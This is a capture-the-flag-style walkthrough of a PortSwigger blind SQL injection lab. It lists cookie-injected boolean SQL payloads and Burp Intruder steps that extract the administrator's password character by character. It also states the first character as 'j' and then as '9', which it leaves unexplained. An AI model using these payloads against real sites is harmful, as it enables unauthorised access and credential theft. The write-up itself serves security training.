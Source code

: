 [Source](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)
## Task
This lab contains a Blind SQL injection vulnerability. The application uses tracking cookies for analytics and executes a SQL query that uses the value of the passed cookie.

The results of the SQL query are not returned, and no errors are displayed. However, the application includes a "Welcome back" message on the page if the query returns at least one row.

The database contains a `users` table with `username` and `password` columns. You need to exploit the Blind SQL injection vulnerability to find out the password of the admin user.

Log in as the admin user to solve the task.
## Solution
Go to the site
![[Pasted image 20241202200651.png]]
Intercept the main page request in `Burp Suite` and send it to `Repeater`
![[Pasted image 20241202201417.png]]
Check if there is a `users` table
```SQL
' AND (SELECT 'a' FROM users LIMIT 1)='a
```
![[Pasted image 20241202202115.png]]
Check if there is an `administrator` user
```SQL
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
![[Pasted image 20241202202217.png]]
Find out how many characters are in password for `administrator`. Gradually increase from 1 until `Welcome back!` is displayed. I stopped at 20 characters. So the password length is 20 characters
```SQL
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
![[Pasted image 20241202202617.png]]
Let's check the first letter of the administrator password. Is it less than `m` or not.
```SQL
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username=+'administrator'),1,1)<'m
```
![[Pasted image 20241202201531.png]]
The first letter is less than `m`. Let's check if the first letter is greater than `i`
```SQL
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username=+'administrator'),1,1)>'i
```
![[Pasted image 20241202201636.png]]
This is how we found the first letter `j`
```SQL
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='j
```
![[Pasted image 20241202201721.png]]
Since it will take a long time to sort through 20 characters, we will use `Intruder`. Send this query to it
![[Pasted image 20241202202926.png]]
Change the query
```SQL
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
![[Pasted image 20241202203004.png]]
Add payload markers to the final character (`a`), so it looks like this
```SQL
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```
Go to the `Payloads` tab and set `Payload type` to `Simple list` and in `Payload settings [Simple list]` enter all the letters of the English alphabet and numbers
![[Pasted image 20241202204030.png]]
In the `Intruder` settings, search for `Grep - Match` and add the line `Welcome back` to it
![[Pasted image 20241202204203.png]]
Launch the attack.
![[Pasted image 20241202210443.png]]We see that the first value of the password is `9`. To search for the following values, change the query
```SQL
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```
The final password is `9sy0zpypsrw7x8pqzw02`. Log in as administrator
![[Pasted image 20241202210959.png]]
![[Pasted image 20241202211006.png]]
